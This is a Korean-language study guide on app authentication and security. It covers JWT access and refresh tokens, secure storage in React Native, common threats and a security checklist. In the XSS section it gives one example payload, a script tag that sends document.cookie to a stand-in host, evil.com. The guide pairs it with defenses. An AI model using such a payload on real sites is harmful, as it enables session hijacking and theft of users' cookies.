# 인증 & 보안 가이드

> 이 문서는 앱에서 사용자 인증과 보안을 어떻게 구현해야 하는지를 학습하기 위한 교재입니다.

---

## 목차

1. [인증이란 무엇인가](#1-인증이란-무엇인가)
2. [인증 방식의 종류](#2-인증-방식의-종류)
3. [토큰 기반 인증 이해하기](#3-토큰-기반-인증-이해하기)
4. [안전한 데이터 저장](#4-안전한-데이터-저장)
5. [일반적인 보안 위협](#5-일반적인-보안-위협)
6. [보안 체크리스트](#6-보안-체크리스트)

---

## 1. 인증이란 무엇인가

### 1.1 인증 vs 인가

두 개념은 자주 혼동됩니다:

| 구분           | 인증 (Authentication) | 인가 (Authorization)      |
| -------------- | --------------------- | ------------------------- |
| **질문** | "너 누구야?"          | "너 이거 해도 돼?"        |
| **확인** | 신원 확인             | 권한 확인                 |
| **예시** | 로그인                | 관리자 페이지 접근        |
| **비유** | 신분증 확인           | VIP 라운지 입장 가능 여부 |



### 1.2 왜 인증이 필요한가

인터넷/앱은 기본적으로 **익명**입니다.

문제:

> 서버 입장에서 "방금 요청한 사람"과 "지금 요청한 사람"이 같은 사람인지 알 수 없습니다.

해결:

> **신분증(토큰)**을 발급해서 매 요청마다 제시하게 합니다.

### 1.3 인증이 필요한 기능

| 기능                | 인증 필요? | 이유               |
| ------------------- | ---------- | ------------------ |
| 상품 목록 보기      | ❌         | 누구나 볼 수 있음  |
| 로그인              | ❌         | 인증 전이므로      |
| 내 프로필 보기      | ✅         | 본인 확인 필요     |
| 글 작성             | ✅         | 작성자 기록 필요   |
| 결제                | ✅         | 본인 확인 필수     |
| 다른 사람 정보 수정 | ✅✅       | 권한도 필요 (인가) |

---

## 2. 인증 방식의 종류

### 2.1 세션 기반 인증

**원리**: 서버가 사용자 정보를 기억



**장단점**:

| 장점                      | 단점                           |
| ------------------------- | ------------------------------ |
| 서버에서 즉시 무효화 가능 | 서버 메모리 사용               |
| 구현이 간단               | 서버 확장 시 세션 공유 필요    |
|                           | 모바일 앱에서 쿠키 관리 어려움 |

### 2.2 토큰 기반 인증

**원리**: 클라이언트가 토큰을 보관



**장단점**:

| 장점                      | 단점                      |
| ------------------------- | ------------------------- |
| 서버 상태 저장 안 해도 됨 | 토큰 즉시 무효화 어려움   |
| 서버 확장 용이            | 토큰이 탈취되면 위험      |
| 모바일 앱에 적합          | 토큰 크기만큼 트래픽 증가 |

### 2.3 어떤 것을 선택할까?



**현대 앱의 선택**: 대부분 **토큰 기반 (JWT)** 사용

- 모바일 앱 지원
- 서버 확장 용이
- 프론트-백엔드 분리에 적합

---

## 3. 토큰 기반 인증 이해하기

### 3.1 JWT란?

**JWT (JSON Web Token)**: 정보를 담은 암호화된 문자열

구조:

```
xxxxx.yyyyy.zzzzz
  ↓      ↓      ↓
Header.Payload.Signature
```

| 부분                | 내용                                |
| ------------------- | ----------------------------------- |
| **Header**    | 토큰 유형, 암호화 알고리즘          |
| **Payload**   | 사용자 정보 (ID, 이름, 만료시간 등) |
| **Signature** | 위변조 방지용 서명                  |

### 3.2 왜 서명이 필요한가?

서명 없이 정보만 있다면:

> 악의적 사용자가 "나는 관리자야"라고 토큰을 조작할 수 있음

서명이 있으면:

> 서버만 아는 비밀키로 서명 → 조작하면 서명이 안 맞음 → 거부



### 3.3 Access Token과 Refresh Token

토큰을 2개로 나누는 이유:

| 토큰                    | 역할                  | 유효기간     | 보안                 |
| ----------------------- | --------------------- | ------------ | -------------------- |
| **Access Token**  | API 호출용            | 짧음 (1시간) | 탈취되어도 피해 제한 |
| **Refresh Token** | Access Token 재발급용 | 긴 (2주)     | 매우 안전하게 보관   |

**왜 이렇게 하는가?**

Access Token만 있다면:

- 유효기간 짧음 → 매번 로그인 필요 (불편)
- 유효기간 김 → 탈취 시 오래 악용 (위험)

Refresh Token 추가:

- Access Token 짧게 (보안)
- 자동 갱신으로 편리함 유지

### 3.4 토큰 흐름



---

## 4. 안전한 데이터 저장

### 4.1 저장소 종류

| 저장소                   | 보안 수준 | 용도                         |
| ------------------------ | --------- | ---------------------------- |
| **메모리 (변수)**  | 🟢 최고   | 임시 저장, 앱 종료 시 사라짐 |
| **Secure Storage** | 🟢 높음   | 토큰, 비밀번호 (암호화됨)    |
| **AsyncStorage**   | 🟡 보통   | 설정, 캐시 (암호화 안 됨)    |
| **쿠키**           | 🟡 보통   | 웹 전용                      |

### 4.2 무엇을 어디에 저장할까?



| 데이터             | 저장 위치      | 이유                        |
| ------------------ | -------------- | --------------------------- |
| Access Token       | Secure Storage | 민감, 앱 재시작 후에도 필요 |
| Refresh Token      | Secure Storage | 매우 민감                   |
| 사용자 설정 (테마) | AsyncStorage   | 민감하지 않음               |
| 임시 폼 데이터     | 메모리         | 화면 떠나면 필요 없음       |
| 검색 기록          | AsyncStorage   | 편의 기능, 민감하지 않음    |

### 4.3 Secure Storage 사용

React Native에서 안전한 저장:

**Expo**: `expo-secure-store`
**React Native CLI**: `react-native-keychain`

특징:

- 데이터 암호화 저장
- 기기 잠금 해제 시에만 접근 가능 (옵션)
- iOS: Keychain, Android: Keystore 사용

---

## 5. 일반적인 보안 위협

### 5.1 XSS (Cross-Site Scripting)

**공격 방식**: 악의적인 스크립트를 주입



**예시**:

```html
<!-- 댓글에 이런 글을 작성 -->
<script>fetch('https://evil.com?cookie='+document.cookie)</script>
```

**방어**:

- 사용자 입력 검증 (sanitization)
- HTML 이스케이프 처리
- React/React Native는 기본적으로 방어됨

### 5.2 CSRF (Cross-Site Request Forgery)

**공격 방식**: 사용자 모르게 요청 실행



**방어**:

- CSRF 토큰 사용
- 토큰 기반 인증 (쿠키 대신)
- 모바일 앱은 CSRF 위험 낮음

### 5.3 중간자 공격 (Man-in-the-Middle)

**공격 방식**: 통신 중간에서 도청



**방어**:

- HTTPS 사용 (암호화 통신)
- 인증서 피닝 (Certificate Pinning)

### 5.4 토큰 탈취

**위험**:

- 토큰을 얻으면 그 사용자인 척 할 수 있음

**방어**:

- 짧은 만료 시간
- Secure Storage 사용
- HTTPS 필수
- 의심스러운 활동 시 토큰 무효화

---

## 6. 보안 체크리스트

### 6.1 통신 보안

- [ ] HTTPS 사용 (프로덕션 필수)
- [ ] API 키를 코드에 하드코딩하지 않음
- [ ] 민감 정보는 요청 body에 (URL 파라미터 X)

### 6.2 인증 보안

- [ ] 비밀번호 최소 요구사항 (8자 이상 등)
- [ ] Access Token 유효기간 짧게 (1시간 이하)
- [ ] Refresh Token은 Secure Storage에만 저장
- [ ] 로그아웃 시 토큰 완전 삭제
- [ ] 비밀번호 변경 시 모든 토큰 무효화

### 6.3 데이터 보안

- [ ] 민감 정보는 Secure Storage 사용
- [ ] AsyncStorage에 비밀번호/토큰 저장 금지
- [ ] 로그에 민감 정보 출력 금지
- [ ] 스크린샷/화면 녹화 보호 (필요시)

### 6.4 입력 보안

- [ ] 모든 사용자 입력 검증
- [ ] SQL Injection 방어 (서버)
- [ ] 파일 업로드 검증

### 6.5 앱 보안

- [ ] 디버그 모드 프로덕션에서 비활성화
- [ ] 난독화 적용 (필요시)
- [ ] 앱 무결성 검사 (루팅/탈옥 감지)

---

## 마무리

### 핵심 요약

1. **인증 = 신원 확인, 인가 = 권한 확인**
2. **모바일 앱은 토큰 기반 인증 권장**
3. **Access Token 짧게, Refresh Token으로 갱신**
4. **민감 정보는 Secure Storage에**
5. **HTTPS는 필수**
6. **사용자 입력은 항상 의심**

### 보안은 레이어다



> 하나만으로는 부족합니다. 여러 겹으로 보호해야 합니다.

---

> 📌 이 문서는 학습 목적으로 작성되었습니다.
>
> 마지막 업데이트: 2025-12-31
